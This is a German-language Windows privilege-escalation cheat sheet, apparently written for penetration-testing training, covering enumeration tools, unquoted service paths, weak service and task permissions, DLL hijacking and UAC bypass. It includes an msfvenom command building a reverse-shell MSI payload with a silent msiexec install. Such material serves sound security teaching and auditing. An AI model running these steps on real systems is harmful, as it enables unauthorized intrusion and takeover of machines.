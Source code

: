 # Windows Privilege Escalation 🪟

Diese Datei dokumentiert Methoden, Tools und Vorgehensweisen zur Privilegienerweiterung (Privilege Escalation) auf **Windows-Systemen**. Sie dient ausschließlich zu **Schulungszwecken** im Rahmen von Penetration Tests und Security-Audits durch autorisierte Fachkräfte.

---

## 🔧 Nützliche Tools

### 1. `whoami`-Befehle

```bash
whoami /user           # Aktueller Benutzername mit SID
whoami /groups         # Gruppenmitgliedschaften (z. B. Admins)
whoami /priv           # Aktive Berechtigungen des Benutzers
```

### 2. `accesschk.exe` von Sysinternals

Tool zur Analyse von Zugriffsrechten:

```bash
accesschk.exe -uws "Benutzer" *               # Zugriffsrechte auf Dienste
accesschk.exe -ucqv Benutzer Pfad\zur\Datei  # Detaillierte Rechteprüfung
```

### 3. `Seatbelt.exe`

Tool zur Informationssammlung auf dem Zielsystem (C#):

```bash
Seatbelt.exe all
```

Funktioniert gut bei eingeschränkten Benutzerrechten – erkennt z. B. gespeicherte Passwörter, schwache Registry-Einstellungen usw.

### 4. `WinPEAS.exe`

Automatisiertes Enumeration-Tool:

```bash
WinPEASx64.exe oder WinPEASx86.exe
```

Identifiziert potenzielle Schwachstellen wie Dienste mit schwachen ACLs, ungesicherte Tasks, UAC-Bypass-Möglichkeiten etc.

---

## 🧰 Typische Escalation-Vektoren

### 🔹 1. Unquoted Service Paths

Nicht in Anführungszeichen gesetzte Pfade in Diensten:

```bash
sc qc <ServiceName>
```

Pfad zu ausführbarer Datei enthält Leerzeichen → eigene Binärdatei einschleusen.

### 🔹 2. Schwache Dienstrechte (Insecure Permissions)

Benutzer hat Schreibrechte auf den Dienst:

```bash
accesschk.exe -uws Benutzer *
```

→ Dienstdatei oder Binärpfad ersetzen.

### 🔹 3. Scheduled Tasks mit schwachen Rechten

```bash
taskschd.msc
schtasks /query /fo LIST /v
```

→ Aufgabe manipulieren oder durch Trojaner ersetzen.

### 🔹 4. AlwaysInstallElevated (MSI-Bypass)

```bash
reg query HKCU\Software\Policies\Microsoft\Windows\Installer
reg query HKLM\Software\Policies\Microsoft\Windows\Installer
```

Werte:

```
AlwaysInstallElevated    REG_DWORD    0x1
```

Dann:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f msi > shell.msi
msiexec /quiet /qn /i shell.msi
```

### 🔹 5. DLL Hijacking

Wenn ein ausführbares Programm DLLs aus unsicheren Pfaden lädt:

* `.dll` Datei mit Payload erstellen
* In priorisierten Ordnern (gleicher Pfad wie EXE) ablegen

Tools zur Analyse: [Procmon.exe](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon)

### 🔹 6. UAC-Bypass (User Access Control)

Identifiziere UAC-schwache Prozesse:

* `fodhelper.exe`
* `eventvwr.exe`

UACMe-Tool: [https://github.com/hfiref0x/UACME](https://github.com/hfiref0x/UACME)

---

## 📜 Tipps zur Analyse

* **PowerUp.ps1** (PowerShell Framework)
* **SharpUp** (C#): Enumeration wie PowerUp, aber für AV-Bypass geeignet
* **Windows Exploit Suggester – Next Generation**

---

## ⚠️ Ethik-Hinweis

Diese Datei dient **nur zu Schulungszwecken**. Sie soll helfen, Schwachstellen in Windows-Systemen zu erkennen, um sie gezielt zu **schließen**. Jegliche nicht autorisierte Nutzung der genannten Methoden ist **illegal** und wird strafrechtlich verfolgt.

> "Mit Wissen kommt Verantwortung. Nutze es zum Schutz, nicht zum Schaden."

---

## 🔗 Weiterführende Links

* [GTFOBins Windows Pendant: LOLBAS](https://lolbas-project.github.io/)
* [Windows-Privilege-Escalation-Cheat-Sheet](https://github.com/netbiosX/Checklists)